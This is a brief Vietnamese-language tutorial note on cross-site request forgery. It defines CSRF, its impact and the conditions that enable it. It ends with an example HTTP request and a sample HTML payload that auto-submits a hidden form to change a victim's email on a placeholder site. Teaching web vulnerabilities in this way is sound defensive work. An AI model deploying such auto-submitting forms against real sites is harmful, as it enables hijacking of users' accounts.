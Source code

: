 # Cross-site request forgery (CSRF).

## What is CSRF?

- Cross-site request forgery (aka CSRF) là một lỗ hổng bảo mật web cho phép kẻ tấn công khiến người dùng thực hiện các hành động mà họ không có ý định thực hiện. 
- Nó cho phép kẻ tấn công phá vỡ một phần same origin policy, được thiết kế để ngăn các trang web khác nhau can thiệp vào nhau.

## What is the impact of a CSRF attack?

- Một cuộc tấn công CSRF thành công, kẻ tấn công khiến người dùng nạn nhân thực hiện một hành động không chủ ý. 

- VD :  + Thay đổi địa chỉ email.
		+ Thay đổi mật khẩu của họ hoặc thực hiện chuyển tiền. 

- Tùy thuộc vào bản chất của hành động, kẻ tấn công có thể có toàn quyền kiểm soát tài khoản của người dùng. Đặc biệt đối với những người dùng cấp cao kẻ tấn công có thể kiểm soát hoàn toàn dữ liệu .

## How does CSRF work?

- 3 điều kiện để csrf xảy ra  :
	+ Tồn tại một hành động đặc quyền mà kẻ tấn công có thể lợi dụng (sửa đổi , thêm , xóa,..).
	+ Xác thực các hành động dựa trên cookie.
	+ Không chứa các mã ngẫu nhiên để xác định hành động .

- VD :
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```
=> Hành động thay đổi email, xác thực chỉ dựa trêm cookie, các tham số dễ đoán.

=> Payload:
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
